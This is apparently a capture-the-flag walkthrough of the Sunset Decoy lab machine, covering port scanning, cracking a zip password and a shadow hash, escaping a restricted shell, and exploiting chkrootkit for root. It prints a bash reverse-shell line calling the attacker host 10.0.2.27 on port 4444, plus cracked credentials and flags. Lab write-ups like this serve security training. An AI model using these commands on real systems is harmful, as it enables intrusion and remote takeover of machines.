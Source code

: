 ```yaml
---
categories: [proving-ground-play,sunset]
tags: [proving-ground,walkthrough,pentest,sunset]
---
```


Lets check the IP address first —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```

Now let’s SSH into it ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Now lets enumerate freely —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```